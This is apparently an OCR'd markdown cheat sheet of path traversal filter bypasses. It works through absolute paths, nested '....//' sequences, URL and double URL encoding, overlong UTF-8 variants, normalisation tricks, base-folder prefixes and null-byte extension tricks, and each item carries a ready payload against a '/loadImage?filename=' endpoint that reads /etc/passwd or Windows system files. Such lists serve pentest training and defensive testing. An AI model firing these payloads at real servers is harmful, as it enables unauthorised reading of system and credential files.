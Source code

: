 - **Bypassing common path traversal defenses**
  
  - **Bypassing blacklist filters**
    
    - **Using absolute paths**
      - When traversal sequences are blocked:
        - `/loadImage?filename=/etc/passwd`
        - `/loadImage?filename=C:\boot.ini`
    
    - **Nested traversal sequences**
      - When simple traversal sequences are filtered:
        - `....//` (becomes `../` when inner `../` is removed)
        - `....\/` (mixed encoding)
        - `.....///` (nested with multiple separators)
      - Example: `/loadImage?filename=....//....//....//etc/passwd`
    
    - **URL encoding variations**
      - Single URL encoding:
        - `../` becomes `%2e%2e%2f`
        - `..\` becomes `%2e%2e%5c`
      - Double URL encoding:
        - `../` becomes `%252e%252e%252f`
        - `..\` becomes `%252e%252e%255c`
      - Example: `/loadImage?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
    
    - **Alternative encodings**
      - Unicode/UTF-8 variants:
        - `../` as `..%c0%af`
        - `../` as `..%ef%bc%8f`
        - `..\` as `..%c1%9c`
      - Example: `/loadImage?filename=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`
    
    - **Path normalization differences**
      - Using redundant path components:
        - `/./` (current directory)
        - `/.//` (multiple separators)
        - `/blah/../` (self-canceling directory)
      - Example: `/loadImage?filename=./.././.././../etc/passwd`
  
  - **Bypassing directory restrictions**
    
    - **Required base folder prefixes**
      - When application requires a specific starting path:
        - `/var/www/images/../../../etc/passwd`
        - `C:\inetpub\wwwroot\..\..\..\Windows\win.ini`
      - Example: `/loadImage?filename=/var/www/images/../../../etc/passwd`
    
    - **Required file extensions**
      - Using null byte injection (works in older implementations):
        - `../../../etc/passwd%00.jpg`
        - `../../../etc/passwd\0.jpg`
      - Using path truncation (platform dependent):
        - Long filenames that exceed max path length
        - `../../../etc/passwd..............................jpg`
      - Example: `/loadImage?filename=../../../etc/passwd%00.jpg`
    